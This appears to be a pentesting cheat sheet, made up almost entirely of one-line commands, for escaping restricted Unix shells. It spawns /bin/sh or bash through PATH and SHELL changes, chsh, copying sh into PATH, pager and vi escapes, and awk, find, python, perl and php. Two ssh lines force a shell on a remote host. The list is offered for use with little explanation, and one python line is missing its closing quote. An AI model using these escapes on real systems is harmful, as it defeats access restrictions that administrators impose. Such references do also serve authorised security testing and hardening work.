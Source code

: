 ### Check for writeable environment variables - if the PATH is writeable, set it to /bin/sh or similar
```
env
export -p
```

### If / is allowed in commands
```
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
```

### Change the shell
```
chsh
```

### Copy into existing PATH
```
cp /bin/sh <path/to/directory>; sh
```

### More, less, man, ftp,gdb
```
!/bin/sh
```

### Vi, vim
```
:!/bin/sh
```

### Awk
```
awk 'BEGIN {system("/bin/sh")}'
```

### Find
```
find / -name <string> -exec /bin/sh ;
```

### Tee
```
echo "<command>" | tee <file>.sh
```

### Python
```
python -c 'import os; os.system("/bin/bash")
```

### Perl
```
perl -e 'exec "/bin/sh";'
```

### Php
```
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

### Ssh
```
ssh <user>@<rhost> -t "/bin/sh"
ssh <user>@<rhost> -t "bash --noprofile"
```

